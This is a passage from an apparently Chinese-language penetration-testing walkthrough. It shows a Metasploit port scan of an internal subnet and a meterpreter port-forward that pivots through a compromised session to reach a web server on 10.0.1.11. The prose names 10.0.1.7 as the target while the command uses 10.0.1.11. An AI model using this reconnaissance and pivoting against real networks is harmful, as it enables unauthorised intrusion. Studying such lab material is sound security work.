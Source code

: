 ```    
PORTS => 22,80,3306,445,3389,139,1433
msf auxiliary(tcp) > set threads 20
threads => 20
msf auxiliary(tcp) > run

[+] 10.0.1.7:             - 10.0.1.7:445 - TCP OPEN
[+] 10.0.1.11:            - 10.0.1.11:80 - TCP OPEN
[+] 10.0.1.9:             - 10.0.1.9:445 - TCP OPEN
[+] 10.0.1.9:             - 10.0.1.9:139 - TCP OPEN
[+] 10.0.1.11:            - 10.0.1.11:22 - TCP OPEN
[+] 10.0.1.9:             - 10.0.1.9:3389 - TCP OPEN
[+] 10.0.1.7:             - 10.0.1.7:139 - TCP OPEN
[+] 10.0.1.26:            - 10.0.1.26:139 - TCP OPEN
[+] 10.0.1.26:            - 10.0.1.26:80 - TCP OPEN
[+] 10.0.1.26:            - 10.0.1.26:3389 - TCP OPEN
[+] 10.0.1.26:            - 10.0.1.26:3306 - TCP OPEN
[+] 10.0.1.26:            - 10.0.1.26:445 - TCP OPEN
```
我们任意选取其中的一台机器(如：10.0.1.11)，我们发现其开放了80和22端口。接下来，我们可以在`session 2`里设置端口转发，将攻击机(10.0.0.5)上的8080端口转发到目标机(10.0.1.7)上的80端口，方便我们后续的测试。
```
msf auxiliary(tcp) > sessions 2
[*] Starting interaction with 2...

meterpreter > portfwd add -l 8080 -p 80 -r 10.0.1.11
[*] Local TCP relay created: :8080 <-> 10.0.1.11:80
meterpreter > portfwd list

Active Port Forwards
====================

   Index  Local         Remote        Direction
   -----  -----         ------        ---------
   1      0.0.0.0:8080  10.0.1.11:80  Forward

1 total active port forwards.
```
这时，我们再次登录我们的Windows渗透机器(10.0.0.7)来查看一下这是个什么网站。
